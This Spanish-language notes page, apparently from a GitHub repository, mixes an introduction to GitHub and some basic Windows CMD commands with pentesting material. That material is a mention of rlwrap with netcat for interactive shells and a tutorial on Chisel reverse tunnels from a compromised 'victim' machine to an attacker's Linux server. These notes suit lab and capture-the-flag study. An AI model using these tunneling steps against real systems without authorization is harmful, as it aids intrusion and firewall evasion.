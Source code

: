 
# ¿Qué es GitHub?

Github es un portal creado para alojar el código de las aplicaciones de cualquier desarrollador, y que fue comprada por Microsoft en junio del 2018.
La plataforma está creada para que los desarrolladores suban el código de sus aplicaciones y herramientas, y que como usuario no sólo puedas
descargarte la aplicación, sino también entrar a su perfil para leer sobre ella o colaborar con su desarrollo.

Git se utiliza también como sistemas de control, ya que permite comparar el código de un archivo para ver las diferencias entre las versiones, restaurar versiones
antiguas si algo sale mal, y fusionar los cambios de distintas versiones. También permite trabajar con distintas ramas de un proyecto, como la de desarrollo
para meter nuevas funciones al programa o la de producción para depurar los bugs.

Github permite que los desarrolladores alojen proyectos creando repositorios de forma gratuita. Pero hay que tener una cosa en mente, y es que para poder subir gratis
los proyectos deberán ser de código abierto. Y no quieres que tu aplicación sea de código abierto, la plataforma también tiene una versión de pago para alojar proyectos
de forma privada.


# rlwrap nc

Como añardir rlwrap a netcat para aplicar una shell interactiva.



# Comandos Terminal CMD Windows

## Ver Usuarios

Este comando tiene la tarea de enumerar todas las cuentas de usuario existentes en el sistema donde se incluyen la cuentas ocultas o cuentas de usuario deshabilitadas.
Estas cuentas de usuario se enumeran con su nombre interno asignado.

    net user
      
Podremos almacenar los resultados en un archivo de texto usando la siguiente sintaxis:

    net user > archivo.txt

También podemos indicar una ruta personalizada si así lo deseamos:
 
    net user > “ruta\archivo.txt
    
### Ver información detallada de un Usuaerio

Para obtener información mucho más detallada de un usuario del sistema, podemos ejecutar lo siguiente. Allí
vemos información precisa y completa sobre el usuario seleccionado.

    net user “usuario”

## Cambiar el nombre a un Archivo
    
Para cambiar el nombre de archivo2.txt por archivo3.txt, se puede usar el comando REN (o RENAME) escribiendo:

    REN archivo2.txt archivo3.txt 
    
    
# Crear un tunel con Chisel entre Linux y Windows:

##¿Qué es Chisel?

``Chisel es un túnel TCP/UDP rápido, transportado a través des servicio HTTP y protegido a través de SSH``. Esta escrito en Go  y utiliza el
protocolo de ``cliente`` a ``servidor``.  Chisel es principalmente útil para pasar a través de firewalls, aunque también se puede usar para 
proporcionar un punto final seguro en su red.

## Redireccionar puertos con Chisel a nuestra localhost:

Una vez hemos ganado acceso o tenemos la posibilidad de subir archivos y ejecutar comandos en el dispoditivo víctima, podemos crear un tunel
con ``chisel``. Mediante esta herramienta podremos establecer una conexión de ``cliente`` a ``servidor`` y conectar dos puertos entre si.
Básicamente conectamos un puerto de la máquina víctima con uno de nuestro equipo, de tal forma, que podemos ejecutar cualquier herramienta en 
local utilizando ese puerto, y automaticamente se redireccionara el ataque a la maquina victima.

### Establecer conexión por parte del Servidor (Linux):

En primer lugar, debemos de estabecer ``Chisel`` en modo ``Servidor`` en nuestro sistema Linux, para ello debemos de asegurarnos que la versión de
Chisel instalada es la adecuada para nuestra distribución. Para establecer nuestro sistema como servidor simplemente ejecutamos el siguiente comando
especificando el puerto que por el que vamos a establecer la conexión. Es importante que este puerto no se encutre en us.

    chisel serve --reverse --port [Puerto Local Conexión] 
    
    ./chisel serve --reverse -p [Puerto Local Conexión] 

``Ejemplo``

    chisel serve --reverse -p 8081

Aquí podemos ver como en el ejemplo hemos establecido un servicio de servidor con Chisel por el puerto 8081, este puerto es el que posteriormente
tendremos que especificar en el servicio por parte del Cliente para realizar la conexión.
    

### Establecer conexión por parte del Cliente (Windows):

Para establecer Chisel en un sistema Windows como ``Cliente``, nos descargamos la versión especifica para Windows (debemos de comprobar 
si el sistema es de 32 o 64 bits) y ejecutamos el siguiente comando. En el debemos especificar el puerto por el que vamos a comunicarnos 
con nuestro servicio ``Servidor`` y los puestos que vamos a comunicar entre si:


    .\chisel.exe client [Ip Local]:[Puerto de Conexión] R:[Puerto Víctima]:127.0.0.1:[Puerto Local]
    
``[Ip Local]``: Es la Ip de nuestro sistema Servidor. O en caso de estar conectados por VPN su Ip pública.  
    
``[Puerto de Conexión]``: Es el puerto establecido en la conexión con el Servidor. Debe ser el mismo puerto que especificado en el sistema Linux.  
    
``[Puerto Víctima]`` y ``[Puerto Local]``: El puerto Víctima pasará a ser el puerto local de nuestro local host 127.0.0.1.
    
    

    


    

